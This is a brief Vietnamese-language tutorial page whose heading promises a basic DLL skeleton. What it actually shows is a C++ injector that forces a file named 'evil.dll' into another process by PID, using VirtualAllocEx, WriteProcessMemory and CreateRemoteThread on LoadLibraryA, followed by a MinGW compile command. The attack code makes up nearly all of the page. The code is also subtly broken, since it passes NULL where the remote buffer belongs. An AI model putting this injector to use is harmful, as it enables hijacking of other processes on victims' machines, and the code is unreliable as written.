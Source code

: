 ## 1. Sườn code của 1 file dll cơ bản

```c++
```

```c++
#include <windows.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <tlhelp32.h>

char dll_file[]= "evil.dll";
unsigned int file_len= sizeof(dll_file)+1;

int main(int argc, char* argv[]){
    HMODULE w_Kernel32= GetModuleHandle("Kernel32");
    VOID* w_LoadLibraryA= GetProcAddress(w_Kernel32, "LoadLibraryA");

    if (atoi(argv[1])==0){
        printf("PID not found \n");
        return -1;
    }

    printf("PID: %i", atoi(argv[1]));
    HANDLE hProcess= OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

    // allocate empty buffer for remote process
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, file_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // write data to that buffer
    WriteProcessMemory(hProcess, pRemoteMemory, dll_file, file_len, NULL);

    // process start new thread
    HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)w_LoadLibraryA, NULL, 0, NULL);

    // close process
    CloseHandle(hProcess);
    return 0;    
}
```

- Compile: `x86_64-w64-mingw32-gcc -O2  dll_inject.cpp  -o dll_inject.exe -I/usr/share/mingw-w64/include/  -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`


